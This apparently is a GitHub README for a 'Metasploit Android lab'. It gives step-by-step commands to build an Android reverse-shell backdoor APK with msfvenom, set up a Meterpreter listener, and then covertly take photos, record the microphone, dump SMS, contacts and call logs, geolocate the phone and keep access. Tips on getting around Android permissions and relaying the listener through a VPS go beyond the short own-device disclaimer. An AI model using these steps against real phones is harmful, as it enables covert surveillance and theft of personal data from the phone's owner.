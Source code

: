 # 🛡️ Metasploit Android Lab – Local Network C2 Simulation

> **DISCLAIMER:**  
> This lab is for educational purposes only on devices you own and control. Do not use this on other networks or systems without full permission.



# ⚙️ 1. Install Metasploit on Linux (Kali/Ubuntu)
### 🐙 Clone and Setup:
```bash
sudo apt update
sudo apt install -y git ruby ruby-dev libpq-dev libreadline-dev zlib1g-dev \
    libsqlite3-dev libxml2 libxml2-dev libxslt1-dev \
    libyaml-dev postgresql curl autoconf build-essential \
    libgmp-dev libpcap-dev libffi-dev
    
git clone https://github.com/rapid7/metasploit-framework.git
cd metasploit-framework
gem install bundler
bundle install
```


## 📶 2. Get IP Address of Devices on Your Wi-Fi

### 🔍 Discover Local Devices:
```bash
ip a       # Get your IP (e.g. 192.168.1.104)
nmap -sn 192.168.1.0/24
```

Look for your phone's IP (e.g. 192.168.1.101) in the scan results.

### 🔁 Create Executables:

```bash 
sudo ln -s $(pwd)/msfvenom /usr/local/bin/msfvenom
sudo ln -s $(pwd)/msfconsole /usr/local/bin/msfconsole
```


🧪 3. Generate Android Payload (APK)
📦 Create the Payload:
```bash
./msfvenom -p android/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=4444 -o ~/backdoor.apk
```
Replace <YOUR_IP> with your local IP (e.g., 192.168.1.104)

Transfer Instructions:

Send backdoor.apk to your phone via:

USB transfer

Local HTTP server

QR code

⚠️ On the Phone:

Manually install the APK

Allow "Install Unknown Sources" when prompted


### 🛰️ 4. Set Up Listener in Metasploit
#### 🖥️ Start Metasploit Console:
```bash 
msfconsole or ./msfconsole
```

## 🧩 Configure Multi Handler:
```bash
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST 192.168.1.104  # Your local IP
set LPORT 4444
exploit
```

## 📱 5. Interact with Compromised Android (Meterpreter)
When the app opens on the phone, you'll see:

text
[*] Meterpreter session 1 opened...

## 🛠️ Useful Commands:

```bash
# Basic System Interaction
shell                    # Open interactive shell
sysinfo                  # Get device information
getuid                   # Show current user context

# File System Operations
ls /sdcard/              # List files
download /path/to/file   # Download files to your machine
upload /local/file /remote/path  # Upload files to device

# Media Capture
webcam_list              # List available cameras
webcam_snap              # Take photo from default camera
webcam_snap 1            # Use back/front cam (if available)
webcam_stream            # Live video stream (if supported)
record_mic               # Record audio from microphone

# Data Extraction
dump_contacts            # Get contact list
dump_sms                 # Read SMS messages
dump_calllog             # Retrieve call logs
geolocate                # Get GPS coordinates (if permission allowed)

# Network Information
ifconfig                 # Show network interfaces
netstat                  # Display active connections

# Persistence
persist_helper           # Attempt to maintain access
```

## 🔄 6. Common Errors & Fixes

### 🚨 Session Issues
| Error Message | Possible Causes | Solutions |
|--------------|----------------|-----------|
| `No session opened` | - APK not executed<br>- Network isolation<br>- Incorrect payload | 1. Verify APK installation<br>2. Check same network segment<br>3. Reconfirm LHOST/LPORT |
| `Session died unexpectedly` | - App killed by OS<br>- Network dropout | 1. Use `set AutoRunScript migrate -f`<br>2. Try persistent payload |

### 📷 Media Capture Failures
| Error Code | Meaning | Workarounds |
|------------|--------|-------------|
| `Operation failed: 1` | Camera permission denied | 1. Use runtime permissions in APK<br>2. Try `webcam_snap -i 1` (front cam) |
| `Error 1002` | Mic access blocked | 1. Modify APK manifest<br>2. Use `record_mic -d 10` (shorter durations) |

### 🔒 Permission Problems
```bash
# Common Android 10+ restrictions:
- /sdcard/ access limited to app folder
- Background location disabled
- Automatic SMS/call log blocking
```

## 🛠️ Quick Fix Cheat Sheet
# When facing issues:
1. check app permissions in Android Settings
2. restart payload with: 
   set AutoRunScript post/android/manage/migrate
3. For connectivity:
   set ReverseListenerBindPort 443
   set OverrideLHOST your.vps.ip

## Features

![1](assets/1.png)

- <code> webcam_list</code> to get access to Camera

- <code>ls /sdcard/DCIM/Camera</code> to access pics that took by camera

![2](assets/2.png)

so here we have all of pics took by phone's Camera, so to download on of them use this command

<code>download /sdcard/DCIM/Camera/photo_name.jpg</code>
- for Example here 

<code>download /sdcard/DCIM/Camera/20221008_172338.jpg
</code>
![3](assets/3.png)

<code>cd /sdcard/DCIM/path/</code> to change to another path 

to get the Address.

<code>geolocate</code>

![4](assets/4.png)

## After the open session type help for seeing options that you can do 

![5](assets/5.png)
## Usage Tips

```bash
# Get detailed help for any command
<command> -h 
# or
help <command>

# Example:
webcam_snap -h
```